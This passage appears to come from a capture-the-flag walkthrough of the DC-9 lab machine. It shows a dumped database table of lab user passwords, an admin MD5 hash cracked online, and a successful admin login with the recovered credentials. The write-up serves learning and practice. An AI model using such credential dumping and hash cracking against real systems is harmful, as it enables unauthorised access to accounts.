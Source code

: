 ```
Database: users
Table: UserDetails
[17 entries]
+----+------------+---------------+---------------------+-----------+-----------+
| id | lastname   | password      | reg_date            | username  | firstname |
+----+------------+---------------+---------------------+-----------+-----------+
| 1  | Moe        | 3kfs86sfd     | 2019-12-29 16:58:26 | marym     | Mary      |
| 2  | Dooley     | 468sfdfsd2    | 2019-12-29 16:58:26 | julied    | Julie     |
| 3  | Flintstone | 4sfd87sfd1    | 2019-12-29 16:58:26 | fredf     | Fred      |
| 4  | Rubble     | RocksOff      | 2019-12-29 16:58:26 | barneyr   | Barney    |
| 5  | Cat        | TC&TheBoyz    | 2019-12-29 16:58:26 | tomc      | Tom       |
| 6  | Mouse      | B8m#48sd      | 2019-12-29 16:58:26 | jerrym    | Jerry     |
| 7  | Flintstone | Pebbles       | 2019-12-29 16:58:26 | wilmaf    | Wilma     |
| 8  | Rubble     | BamBam01      | 2019-12-29 16:58:26 | bettyr    | Betty     |
| 9  | Bing       | UrAG0D!       | 2019-12-29 16:58:26 | chandlerb | Chandler  |
| 10 | Tribbiani  | Passw0rd      | 2019-12-29 16:58:26 | joeyt     | Joey      |
| 11 | Green      | yN72#dsd      | 2019-12-29 16:58:26 | rachelg   | Rachel    |
| 12 | Geller     | ILoveRachel   | 2019-12-29 16:58:26 | rossg     | Ross      |
| 13 | Geller     | 3248dsds7s    | 2019-12-29 16:58:26 | monicag   | Monica    |
| 14 | Buffay     | smellycats    | 2019-12-29 16:58:26 | phoebeb   | Phoebe    |
| 15 | McScoots   | YR3BVxxxw87   | 2019-12-29 16:58:26 | scoots    | Scooter   |
| 16 | Trump      | Ilovepeepee   | 2019-12-29 16:58:26 | janitor   | Donald    |
| 17 | Morrison   | Hawaii-Five-0 | 2019-12-29 16:58:28 | janitor2  | Scott     |
+----+------------+---------------+---------------------+-----------+-----------+
```
I tried login with them in ``/manage.php`` but didn't worked so I moved to another Database.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc9/13.png)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc9/14.png)

```
+--------+----------------------------------+----------+
| UserID | Password                         | Username |
+--------+----------------------------------+----------+
| 1      | 856f5de590ef37314e7c3bdf6f8a66dc | admin    |
+--------+----------------------------------+----------+
```
I cracked them with online crackers

> https://crackstation.net/

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc9/15.png)

Now I tried with these creds `` admin:transorbital1 ``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc9/16.png)

Successfully Logged in<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc9/17.png)<br/>
While looking at the webpage there is a message `` File does not exist `` on the footer.
